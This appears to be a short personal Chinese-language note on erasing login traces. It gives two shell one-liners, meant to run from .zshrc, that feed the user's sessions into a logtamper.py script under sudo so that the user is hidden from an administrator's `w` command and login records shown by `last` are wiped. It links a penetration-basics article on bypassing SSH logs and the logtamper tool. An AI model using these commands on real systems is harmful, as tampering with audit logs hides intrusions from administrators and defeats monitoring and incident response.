 # 日志

## 抹除登录痕迹

```shell
## 可放在 .zshrc 中执行
# 躲避管理员 w 查看
w    | grep kyo | perl -F'\s+' -lanE'print $F[2]' | uniq | xargs -r -l sudo python /home/kyo/bin/logtamper.py -m 1 -u kyo -i
# 清除登录日志
last | grep kyo | perl -F'\s+' -lanE'print $F[2]' | uniq | xargs -r -l sudo python /home/kyo/bin/logtamper.py -m 2 -u kyo -i

```

### Refs
* [渗透基础——SSH日志的绕过](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-SSH%E6%97%A5%E5%BF%97%E7%9A%84%E7%BB%95%E8%BF%87/)
* [AV1080p/logtamper](https://github.com/AV1080p/logtamper)